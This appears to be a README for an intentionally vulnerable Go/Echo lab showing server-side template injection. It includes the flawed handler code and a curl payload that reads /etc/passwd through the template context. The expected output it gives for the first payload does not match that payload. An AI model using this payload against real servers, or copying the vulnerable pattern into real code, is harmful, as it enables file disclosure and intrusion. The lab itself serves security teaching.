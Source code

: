 
# Go Vulnerable Lab: SSTI (Echo Framework)

This directory contains a Go application intentionally vulnerable to **Server-Side Template Injection (SSTI)**.

This vulnerability is **high-severity** because it demonstrates how passing a web framework's context object to the template engine can lead to **Arbitrary File Read**.

## The Vulnerability

The application uses the Echo framework. The handler at `/hello` makes two critical mistakes:

1.  It concatenates user input (the `name` parameter) directly into the template string.
2.  It passes the entire `echo.Context` object (`c`) as data to the `tmpl.Execute()` function.

```go
// VULNERABLE PART 1: User input becomes template code
templateString := "Hello, " + name
tmpl, err := template.New("ssti").Parse(templateString)

// VULNERABLE PART 2: Full context is passed as data
err = tmpl.Execute(c.Response().Writer, c)
```

Because the template has access to the `echo.Context` object, an attacker can call any of its exported methods.

## How to Run
1.  Ensure Go and the Echo framework are installed:
    ```bash
    go mod tidy
    ```
2.  Run the application:
    ```bash
    go run main.go
    ```

## How to Demonstrate the Vulnerability

### Simple Injection (Confirming the Flaw)

This payload executes simple template logic.

```bash
curl "http://localhost:8080/hello?name={{ \"World\" }}"
`Hello, SSTI`
```

### Arbitrary File Read

This payload calls the `.File()` method on the `echo.Context` object to read `/etc/passwd`.

```bash
curl "http://localhost:8080/hello?name={{ .File \"/etc/passwd\" }}"
```

The server responds with ` Hello,  ` followed by the contents of `/etc/passwd`.
